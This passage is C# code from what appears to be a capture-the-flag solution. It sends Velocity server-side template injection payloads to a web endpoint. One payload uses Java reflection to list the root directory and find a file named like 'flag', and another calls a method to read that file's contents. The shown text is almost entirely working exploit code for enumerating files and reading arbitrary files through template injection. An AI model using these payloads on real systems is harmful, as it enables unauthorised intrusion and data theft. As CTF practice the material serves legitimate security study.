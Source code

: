 ```c#
		#set($fileConstructor = $fileClass.getConstructor($name.class))
		#set($rootDir = $fileConstructor.newInstance('/'))
		#set($listFilesMethod = $fileClass.getMethod('listFiles'))
		#set($filesArray = $listFilesMethod.invoke($rootDir))
		
		#foreach($file in $filesArray)
	    	#set($fileName = $file.getName())
	    	$fileName
		#end
	";

	var content = new FormUrlEncodedContent(new[]
	{
		new KeyValuePair<string, string>("text", findFlagFilePayload)
		});

	var c = new HttpClient();
	var response = await c.PostAsync(URL, content);

	var responseString = await response.Content.ReadAsStringAsync();
	var lines = responseString.Split('\n');
	var flagFileName = lines.FirstOrDefault(x => x.Contains("flag"));
	return flagFileName.Trim();
}

async Task<string> ReadFile(string fileName)
{
	var readFilePayload = $@"
		#set($class = $name.getClass().forName('Main'))
		#set($method = $class.getDeclaredMethod('readFileToString', $name.class, $name.class))
		#set($result = $method.invoke($null, '{fileName}', ''))
		$result
	";

	var content = new FormUrlEncodedContent(new[]
	{
		new KeyValuePair<string, string>("text", readFilePayload)
		});

	var c = new HttpClient();
	var response = await c.PostAsync(URL, content);

	var responseString = await response.Content.ReadAsStringAsync();
	return StripHtml(responseString);
}

string StripHtml(string text) {
	var startIdentifier = "<h2 class=\"fire\">";
	var start = text.IndexOf(startIdentifier) + startIdentifier.Length;
	var end = text.IndexOf("</h2>");
	return text.Substring(start, end - start).Trim();
}
```

